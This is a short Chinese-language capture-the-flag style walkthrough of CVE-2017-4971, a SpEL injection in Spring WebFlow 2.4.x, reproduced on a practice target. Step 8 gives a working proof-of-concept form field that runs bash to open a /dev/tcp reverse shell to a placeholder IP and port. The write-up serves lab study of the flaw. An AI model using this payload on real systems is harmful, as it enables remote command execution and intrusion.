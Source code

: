 # CVE-2017-4971

## 概述

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的 field，将导致一个 SpEL 表达式注入漏洞，最终造成任意命令执行。

## 漏洞复现

1、首先打开靶场

![1](./1.png)

2、输入 login 进入登录页面，然后进行登录，左边有账号密码。

![2](./2.png)

3、输入账号密码进行登录。

![3](./3.png)

4、访问 /hotels/1 目录，并点击 Book Hotel

![4](./4.png)

5、随便输入内容，并点击 Proceed

![5](./5.png)

6、点击 Confirm 并进行抓包。

![6](./6.png)

7、利用服务器对本地端口进行监听。

![7](./7.png)

8、利用 POC 反弹 shell，POC如下。

`_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/IP/PORT+0>%261")).start()=vulhub`

![8](./8.png)

9、反弹成功，查看 Flag.

![9](./9.png)